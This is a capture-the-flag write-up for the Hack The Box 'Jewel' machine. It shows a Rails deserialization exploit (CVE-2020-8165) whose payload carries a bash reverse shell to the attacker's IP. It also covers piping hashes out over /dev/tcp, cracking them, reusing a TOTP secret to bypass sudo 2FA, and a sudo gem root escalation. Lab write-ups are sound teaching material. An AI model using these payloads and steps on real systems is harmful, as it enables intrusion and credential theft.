


<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Scanning

## Nmap

`ports=$(sudo nmap -p- --min-rate=1000 "$1" | grep open | awk -F / '{print $1}' ORS=',') && sudo nmap -p$ports -sV -sC -oN nmap.txt "$1"`
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: 10.10.10.211 Git
|_Requested resource was http://10.10.10.211:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
```

* Port 8080 is a BLOG! webapp and port 8000 containts the source code of the webapp.
* we can greb the git repo from `http://10.10.10.211:8000/gitweb/?p=.git;a=snapshot;h=5d6f436256c9575fbc7b1fb9621b18f0f8656741;sf=tgz` master commit snapshot.
* get `git-5d6f436.tar.gz` archive file.

## source code enumerating

* extracting the archive

  `❯ tar -xvzf git-5d6f436.tar.gz`

	  ❯ tree .git-5d6f436
		  ├── app
		  |
	  ... [snip] ...
		  |
		  ├── bd.sql

	  ... [snip] ...

			47 directories, 116 files

* Found 2 usernames and password hashes in `bd.sql` file

	  ❯ grep -E "bill"\|"jennifer" bd.sql

	  1       bill    bill@mail.htb   2020-08-25 08:13:58.662464      2020-08-25 08:13:58.662464      $2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
	  2       jennifer        jennifer@mail.htb       2020-08-25 08:54:42.8483        2020-08-25 08:54:42.8483        $2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
  
  * hashes are not crackable.

* this webapp written in ruby and there is a tool that can scan for potential vulnerabilities in ruby project - [brakeman](https://brakemanscanner.org/)
  * but the tool don't find any useful vulnerabilities.

* viewing the gemfile which contains all require dependencies for the project found the ruby rail version:

		❯ grep -n rail Gemfile
		7:gem 'rails', '= 5.2.2.1'

* viewing the [release notes](https://weblog.rubyonrails.org/releases/) this version is released on March 13, 2019 and there is a de-serialization vulnerability in the rails < 5.2.4.3, rails < 6.0.3.1

  **CVE-2020-8165:** A de-serialization of untrusted data vulnerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to un-marshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE.

  **Exploit PoC:** [masahiro331@github.com](https://github.com/masahiro331/CVE-2020-8165)

* rail [May 18, 2020](https://weblog.rubyonrails.org/2020/5/18/Rails-5-2-4-3-and-6-0-3-1-have-been-released/) release address this issue and from here found detailed document for this [exploit](https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c?pli=1)

* what this report says is that -

  There is potentially unexpected behavior in the MemCacheStore and RedisCacheStore where, when untrusted user input is written to the cache store using the `raw: true` parameter, re-reading the result from the cache can evaluate the user input as a Marshalled object instead of plain text. Vulnerable code looks like:

	  data = cache.fetch("demo", raw: true) { untrusted_string } 

* verifying this in our code:

	  ❯ grep -r 'raw: true'
	  app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
	  app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}

	  ❯ sed -n 32,49p app/controllers/users_controller.rb
		def update
			@user = User.find(params[:id])
			if @user && @user == current_user
			cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
			cache.delete("username_#{session[:user_id]}")
			@current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
			if @user.update(user_params)
				flash[:success] = "Your account was updated successfully"
				redirect_to articles_path
			else
				cache.delete("username_#{session[:user_id]}")
				render 'edit'
			end
			else
			flash[:danger] = "Not authorized"
			redirect_to articles_path
			end
		end

	  ❯ sed -n 29,40p app/controllers/application_controller.rb
		def current_username
			if session[:user_id]
			cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
			@current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
				@current_user = current_user
				@current_username = @current_user.username
			end
			else
			@current_username = "guest"
			end
			return @current_username
		end
		
* viewing the code it is clear that somewhere in the username update field is vulnerable for this exploit.

# User Exploiting

* If we go to 10.10.10.211:8080 there is a signup option and create an account and go to profile there is a username update option `http://10.10.10.211:8080/users/19/edit`

  

* Found the vulnerability and its location now time to exploit it.
* For exploiting it we need to install rail console to create payload that specified in the PoC:
  * install the same Rail version that is vulnerable for this exploit.

* starting console:

	  $ bundle exec rails console
	  irb(main):>

* Creating Payload
```ruby
code = '`/bin/bash -c "bash -i &>/dev/tcp/{IP}/4141 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

this give us usr encoded payload.

<!--
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.15.71%2F4141+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
-->

* start netcat, intercept the username update request in burp, past payload in username field and forward the request and then refresh the page and payload get execute and we get shell.

  


# Privilege Escalation

* Running linpeas with `-a` one funny thing happened i get sudo password of user bill:

  

  * but i don't thing that this is the intentional way.

* digging more i found a unusual file in `/var/backups/` dump_2020-08-27.sql.

	  (remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql 
	  2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
	  1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

  * these hashes are diffrent form last time and when try to crack them i successfully crack bill hash and get the same password that linpeas cracked.

		(remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql | awk '{print $2":"$8}' > /dev/tcp/10.10.15.71/4141

		❯ nc -nvlp 4141 > hashes
		listening on [any] 4141 ...
		connect to [10.10.15.71] from (UNKNOWN) [10.10.10.211] 41058
		❯ cat hashes
		jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
		bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

		❯ john hashes -w=/usr/share/wordlists/rockyou.txt
		<snip>
		❯ john hashes --show
		bill:spongebob

		1 password hash cracked, 1 left

# Root 

* running `sudo -l` with user bill password asking for `Verification code`.

	  (remote) bill@jewel.htb:/home/bill$ sudo -l
	  [sudo] password for bill: 
	  Verification code: 
	  You type like I drive.
	  [sudo] password for bill: 
	  Verification code: 
	  Take a stress pill and think things over.
	  [sudo] password for bill: 
	  Verification code: 
	  sudo: 3 incorrect password attempts

* google tells me that sudo also have 2FA and that is enable here. found on this [article](https://www.linux.com/topic/desktop/how-set-2-factor-authentication-login-and-sudo/)
  * this article tells that sudo 2AF use `pam_google_authenticator.so`, and this module create a secret totp key file named `.google_authenticator` that use to create OTP.
  * this file present in bill home folder. 
  * from this module's [git repo](https://github.com/google/google-authenticator-libpam) that this file `.google_authenticator` created when configuring 2FA and use as a secret for generating OTP

		auth required pam_google_authenticator.so secret=${USER}/.google_authenticator

* And bill home folder `.google_authenticator` file contains the totp code that use to create OTP:

	  (remote) bill@jewel.htb:/home/bill$ cat .google_authenticator 
	  2UQI3R52WFCLE6JTLDCSJYMJH4
	  " WINDOW_SIZE 17
	  " TOTP_AUTH

* we can use that same code in any Oauth app to create that Verification code for sudo. i use this chrome [authenticator](https://chrome.google.com/webstore/detail/authenticator/bhghoamapcdpbohphigoooaddinpkbai?hl=en) addon
  * but success is not that easy, because in 2FA depend on clock time and if both ends time is different while generating code it never works.

* spend so much time try to sync with the box time and then found [oathtool](https://packages.debian.org/sid/oathtool) that run from terminal and create OTP using totp code. 

* My technique is to upload the oathtool in the box and run form the box so that i don't need to sync box time and my machine time because i'm running on same box.
  * but this is not easy because oathtool is not a single executable binary file, it depends on some Shared libraries and while running the oathtool binary it give an error of missing library:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool 
		./oathtool: error while loading shared libraries: liboath.so.0: cannot open shared object file: No such file or directory

* this binary expecting this:

	  ❯ whereis liboath.so.0
	  liboath.so: /usr/lib/x86_64-linux-gnu/liboath.so.0
	  ❯ ls -la /usr/lib/x86_64-linux-gnu/liboath.so.0
	  lrwxrwxrwx 1 root root 16 Feb  4 13:37 /usr/lib/x86_64-linux-gnu/liboath.so.0 -> liboath.so.0.1.3

  * But this is not available in the box.

* So, to run oathtool successfully in the box we need to do some things before run it:

  1. upload `liboath.so.0.1.3` library in the box, found [here](https://packages.debian.org/sid/liboath0)
  2. Create its symbolic link as liboath.so.0, learn about sym-links [here](https://linuxize.com/post/how-to-create-symbolic-links-in-linux-using-the-ln-command/)
  3. set `LD_LIBRARY_PATH` to `liboath.so.0.1.3` library location.
  4. run it.

  * upload both files in the bill's home folder:

		(remote) bill@jewel.htb:/home/bill$ ls -l
		-rw-r--r--  1 bill bill 83960 Feb 20 10:04 liboath.so.0.1.3
		-rwxr-xr-x  1 bill bill 80512 Feb 20 09:53 oathtool

  * create symbolic link:

		(remote) bill@jewel.htb:/home/bill$ ln -s  liboath.so.0.1.3 liboath.so.0
		(remote) bill@jewel.htb:/home/bill$ ls -l
		lrwxrwxrwx  1 bill bill    16 Feb 20 10:07 liboath.so.0 -> liboath.so.0.1.3

  * setting `LD_LIBRARY_PATH` path to current folder:

		(remote) bill@jewel.htb:/home/bill$ LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/home/bill
		(remote) bill@jewel.htb:/home/bill$ export LD_LIBRARY_PATH

  * running:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -V
		oathtool (OATH Toolkit) 2.6.6
		Copyright (C) 2009-2021 Simon Josefsson.
		License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
		This is free software: you are free to change and redistribute it.
		There is NO WARRANTY, to the extent permitted by law.

		Written by Simon Josefsson.

* Now the last thing is to generate code and check if it works.
  * code generated successfully:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
		015396

  * now time to send this code to sudo:

		(remote) bill@jewel.htb:/home/bill$ ./oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4' && sudo -l
		627580
		[sudo] password for bill: 
		Verification code: 
		Matching Defaults entries for bill on jewel:
			env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, insults

		User bill may run the following commands on jewel:
			(ALL : ALL) /usr/bin/gem

    * And successfully execute sudo command.

# Root Exploting

* User can run `/usr/bin/gem` as any user with sudo:

  **exploit:** `sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc` From [gtfobins](https://gtfobins.github.io/gtfobins/gem/)

	  (remote) bill@jewel.htb:/home/bill$ sudo /usr/bin/gem open -e "/bin/bash -c /bin/bash" rdoc
	  root@jewel:/usr/lib/ruby/gems/2.5.0/gems/rdoc-6.0.1# id
	  uid=0(root) gid=0(root) groups=0(root)